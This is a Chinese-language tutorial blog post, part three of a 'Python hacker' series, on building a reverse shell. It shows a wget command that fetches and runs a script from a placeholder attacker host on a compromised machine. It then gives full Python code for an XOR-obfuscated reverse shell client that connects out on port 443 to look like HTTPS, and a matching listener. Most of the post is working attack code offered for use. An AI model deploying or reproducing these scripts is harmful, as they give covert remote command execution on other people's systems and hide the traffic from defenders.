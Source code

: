 ```yaml
---
layout: post
title: Python黑客之旅0x3
categories: Python Hacker
tags: Python黑客之旅
---
```


* TOC 
{:toc}

## 反向shell






参考阅读:[什么是反向Shell](http://os.51cto.com/art/201312/424378.htm)

这篇教程将会教你使用Python编写一个反向shell，首先我们先演示使用Python如何利用web服务器的功能，把文件从另一台主机传送过来。我们假设你有一台傀儡主机，你现在想下载傀儡机上面的的文件。那么你就可以使用shell(或meterpreter)去访问这台傀儡机，你可以通过一行Python代码把傀儡机建立成为一个web服务器，然后下载傀儡机上面的文件.

创建一个python HTTP服务器可以直接使用python的内建函数"SimpleHTTPServer"来创建，你可以使用'-m'参数直接在命令行调用模块，创建的服务器默认是监听的8000端口，但是你可以指定端口，直接在'SimpleHTTPServer'后面跟一个端口参数:

``` python
python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 80 ...
```

我们假设你没有防火墙去阻止你的连接，那么你是可以请求到这服务器的数据。你可以在任何目录里面去启动Python HTTP服务器，这样你就能够通过浏览器或者是远程客户端来访问这个目录。这里有一个简单的例子告诉你使用wget工具去获取文件,但是有些时候就会经常发现你根本没有权限在当前目录写入文件并且初始化这个脚本，但是你可以改变脚本执行的目录，下面这个例子就演示了把脚本在/tmp目录下面执行：

``` python
#使用-O参数，把文件保存在其他目录- /tmp/ 一般可写
wget -O /tmp/shell.py http://<attacker_ip>/shell.py
 
#修改权限
chmod a+x /tmp/shell.py
 
# 使用file命令检查文件是否正确
file /tmp/shell.py
 
#执行脚本
/usr/bin/python /tmp/shell.py
```

## 客户端反向shell代码

阅读下面的后门代码。编码时会使用到`socket`，`subprocess`和`sys`模块，选择`subprocess`模块原因，是因为它允许使用一个变量储存STDOUT输出的结果，之后可以在代码中的其他部分通过调用此变量访问保存的STDOUT数据。下面的代码中：所建立的连接会监听`443`端口。`443`端口经常用在**https**上，这里使用`443`端口可以起到混淆视听的作用:

``` python
#!/usr/bin/python
 
import socket,subprocess,sys
 
RHOST = sys.argv[1]
RPORT = 443
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
 
while True:
     # 从socket中接收XOR编码的数据
     data = s.recv(1024)
 
     # XOR the data again with a '\x41' to get back to normal data
     en_data = bytearray(data)
     for i in range(len(en_data)):
       en_data[i] ^=0x41
 
     # 执行解码命令，subprocess模块能够通过PIPE STDOUT/STDERR/STDIN把值赋值给一个变量
     comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     comm.wait()
     STDOUT, STDERR = comm.communicate()
 
     # 输出编码后的数据并且发送给指定的主机RHOST
     en_STDOUT = bytearray(STDOUT)
     for i in range(len(en_STDOUT)):
       en_STDOUT[i] ^=0x41
     s.send(en_STDOUT)
s.close()
```

上面的代码中有些概念已经在[0x2](http://www.kionf.com/python/2015/10/14/pythonhacker_0x2.html)介绍过了，但是除了之前的使用socket创建一个连接之外，我们通过subprocess模块执行了一个命令，`subprocess`模块非常的方便，它允许你通过STDOUT/STDERR命令直接把值赋值给一个变量，然后我们可以通过命令把输出的进行编码然后通过socket网络发送出去。

使用OXR的好处就是你能够很容易编码你要发送过去的数据，然后通过相同的密钥来解码返回的数据，最后解码后的数据可以以明文的形式去执行命令。


## 服务端监听shell代码

现在为了利用好这个后门，我们需要一个监听脚本并且解码后端传输过来的数据，让我们通过明文很清晰的看清楚返回的数据。

下面我们将要设计一个监听器。来获取反向shell的数据，并且能够对于输入／输出的进行解码/编码，为了能够在终端上面能够很清晰的看出来，所以需要使用XOR编码:

{% highlight python %}
import socket 

s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 443))
s.listen(2)
print "Listening on port 443... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip

while True:
 command = raw_input('~$ ')
 encode = bytearray(command)
 for i in range(len(encode)):
   encode[i] ^=0x41
 client.send(encode)
 en_data=client.recv(2048)
 decode = bytearray(en_data)
 for i in range(len(decode)):
   decode[i] ^=0x41
 print decode
 
client.close()
s.close()

{% endhighlight %}

> 这章的例子非常有趣，对于学习信息安全的朋友都喜欢shell，大家可以对代码做点修改让这个脚本也能够在window上面也能够正常运行，最后大家可以使用`base64`来代替XOR进行编码与解码，这些练习让你你更加熟练的使用python.下一章

